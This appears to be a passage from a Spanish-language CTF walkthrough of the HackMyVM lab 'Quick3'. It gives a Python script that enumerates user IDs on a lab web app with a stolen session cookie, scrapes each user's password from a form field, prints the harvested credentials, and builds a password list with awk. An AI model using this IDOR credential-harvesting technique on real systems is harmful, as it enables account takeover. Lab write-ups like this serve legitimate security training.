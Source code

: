 ```python
import requests
from bs4 import BeautifulSoup

session = requests.Session()
session.cookies.update({"PHPSESSID": "030f3tjfqp11h8caak21lgh31m"})

for cnt in range(1, 30):
    response = session.get(f"http://192.168.1.110/customer/user.php?id={cnt}")
    soup = BeautifulSoup(response.content, "lxml")
    username_element = soup.select("ul.list-unstyled")[1]
    username_parts = username_element.text.strip().split(":")[1].strip().split("@")
    if len(username_parts) == 2:
        username, domain = username_parts
        if domain == "quick.hmv":
            password = soup.find("input", id="oldpassword")["value"]
            print(f"{username}:{password}")
```

Lo explicaré brevemente:

1. Creamos una sesión con `requests.Session()`.
2. Le ponemos la **`cookie`** que corresponda.
3. Iteramos sobre un rango (del `1` al `30`) y le asignamos el número a la variable **`cnt`**.
4. Hacemos la solicitud a la web y le pasamos la variable **`cnt`**.
5. Iniciamos **`BeautifulSoup`**.
6. Encontramos mediante **`CSS`** el correo. Separamos la línea para quedarnos solamente con el mail y volvemos a separar por el arroba para obtener el nombre de usuario y el dominio.
7. Verificamos que **`username_parts`** tiene dos partes (usuario y dominio)
8. Asignamos variables a cada parte. Una al usuario y otra al dominio.
9. Verificamos que el dominio sea igual a **`quick.hmv`**.
10. Encontramos la contraseña mediante la **`ID`** `oldpassword` y obtenemos el texto del atributo **`Value`**.

Una vez explicado podemos ver el resultado de ejecutar el **`script`**:

```
info:q27QAO6FeisAAtbW
nick.greenhorn:H01n8X0fiiBhsNbI
andrew.speed:oyS6518WQxGK8rmk
mike.cooper:6G3UCx6aH6UYvJ6m
jeff.anderson:Kn4tLAPWDbFK9Zv2
coos.busters:8RMVrdd82n5ymc4Z
juan.mecanico:DX5cM3yFg6wJgdYb
john.smith:yT9Hy2fhX7VhmEkj
lara.johnson:GUFTV4ERd7QAexxw
```

Vemos que hay muchos usuarios, probar cada usuario y contraseña manualmente es bastante pesado, así que juguemos con **`AWK`** para obtener las contraseñas:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Quick3/scripts]
└─# python3 get_user_and_password.py | awk -F: '{print $2}' > passwords.txt
```
